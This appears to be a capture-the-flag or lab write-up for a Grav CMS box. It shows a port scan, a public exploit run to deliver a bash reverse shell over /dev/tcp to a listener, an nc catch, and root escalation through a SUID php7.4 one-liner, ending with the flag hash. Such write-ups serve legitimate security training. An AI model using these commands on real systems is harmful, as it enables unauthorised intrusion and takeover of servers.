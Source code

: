 `└─$ autonmap -H 192.168.190.12 -t all`

`Running all scans on 192.168.190.12`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

If we go to the http port, we can see it's Grav CMS
![[Pasted image 20240208113714.png]]

![[Pasted image 20240208113730.png]]

![[Pasted image 20240208113745.png]]

This takes us to 49788 which is a Metasploit module - but it doesn't work. So let's look for a PoC.

![[Pasted image 20240208113914.png]]

We run this with just the id command and it says completed successfully but we get no feedback.
Try again with a reverse shell.

`└─$ python exploit.py -c 'bash -i >& /dev/tcp/192.168.45.235/4444 0>&1' -t http://192.168.190.12/grav-admin`
[`*] Creating File`
`Scheduled task created for file creation, wait one minute`
`[*] Running file`
`Scheduled task created for command, wait one minute`
`Exploit completed`

Catch and upgrade

`└─$ nc -nlvp 4444`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.190.12:40500.`
`bash: cannot set terminal process group (2825): Inappropriate ioctl for device`
`bash: no job control in this shell`
`www-data@gravity:~/html/grav-admin$ python -c 'import pty; pty.spawn("/bin/bash")'`
`<min$ python -c 'import pty; pty.spawn("/bin/bash")'`
`Command 'python' not found, did you mean:`
  `command 'python3' from deb python3`
  `command 'python' from deb python-is-python3`

`www-data@gravity:~/html/grav-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@gravity:~/html/grav-admin$` 

Look for applications where suid permission is set (ignore the garbage ones)
```
find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'
```

`/usr/lib/dbus-1.0/dbus-daemon-launch-helper`
`/usr/lib/eject/dmcrypt-get-device`
`/usr/lib/snapd/snap-confine`
`/usr/lib/openssh/ssh-keysign`
`/usr/lib/policykit-1/polkit-agent-helper-1`
`/usr/bin/chsh`
`/usr/bin/at`
`/usr/bin/su`
`/usr/bin/fusermount`
`/usr/bin/chfn`
`/usr/bin/umount`
`/usr/bin/sudo`
`/usr/bin/passwd`
`/usr/bin/newgrp`
`/usr/bin/mount`
`/usr/bin/php7.4`
`/usr/bin/gpasswd`

Setuid set on php7.4, check GTFObins

![[Pasted image 20240208115443.png]]

`/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"`

# `whoami`
`whoami`
`root`
# `cat /root/proof.txt`
`cat /root/proof.txt`
`50f67c7850de41bd40ed058abddcb322`
